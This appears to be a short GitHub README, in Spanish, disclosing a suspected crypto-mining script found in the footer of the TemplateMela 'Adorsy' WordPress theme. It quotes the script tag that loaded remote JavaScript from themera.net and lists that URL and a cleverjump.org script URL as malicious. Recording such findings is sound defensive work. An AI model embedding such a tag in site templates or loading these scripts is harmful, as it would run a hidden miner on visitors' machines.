 # script-malicioso-templatemela-adorsy
Documentación sobre un script malicioso que encontré navegando en Wordpress

Trabajando junto con un amigo en un eCommerce, fuí alertado de la existencia de un Malware en la web que estábamos trabajando. La alerta vino del Antimalware en la PC de mi amigo, pensé que serí un falso negativo, pero revisando las llamadas de Red desde la consola del navegador, ví que es lo que sucedía.

Había un par scripts que tenían un comportamiento extraño por decir lo menos. El primero, "themera.js" llamaba a una página "https://themera.net/", la llamada estaba en el footer.php del Template elaborado por la empresa Templatemela. Concretamente en la plantilla Adorsy.

<!-- <script type="text/javascript" src="//themera.net/embed/themera.js?id=76847"></script> -->

Dentro de ese script se llamaba a otro "counter.js", este último alojado en una web de Países Bajos "https://cleverjump.org/", al parecer había un Bitcoin Minner ese último script. https://urlscan.io/result/8f13ff7e-23f9-47dd-a8bb-c66eb2a76118 dejo los resultados de mi búsqueda. 

Actualmente (como pueden ver de hecho) no tengo tantos conocimientos para ir desarmando parte por parte el script y saber a ciencia cierta qué hace. Por eso lo dejo aquí en Git Hub como constancia de mi hallazgo.

Webs con los Script Maliciosos:
* https://cleverjump.org/counter.js
* https://themera.net/embed/themera.js?id=76847
